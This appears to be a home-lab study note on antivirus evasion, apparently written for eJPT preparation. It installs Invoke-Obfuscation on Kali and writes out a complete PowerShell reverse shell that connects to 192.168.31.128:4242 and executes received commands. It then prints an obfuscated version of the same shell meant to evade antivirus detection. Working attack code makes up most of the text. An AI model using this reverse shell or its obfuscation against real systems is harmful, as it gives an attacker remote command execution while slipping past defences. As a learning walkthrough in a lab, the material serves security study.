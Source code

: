 > 🔬 Home lab with Kali Linux and Win7 VMs

- Kali Linux install PowerShell

```bash
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update && sudo apt install -y powershell
```

- Run `pwsh`

```bash
pwsh
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```

![Invoke-Obfuscation](.gitbook/assets/image-20230424172552425.png)

- Create the reverse PowerShell script in a new file
  - PowerShell Reverse Shell code will be

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano shell.ps1
```

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```

![](.gitbook/assets/image-20230424173718594.png)

- Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
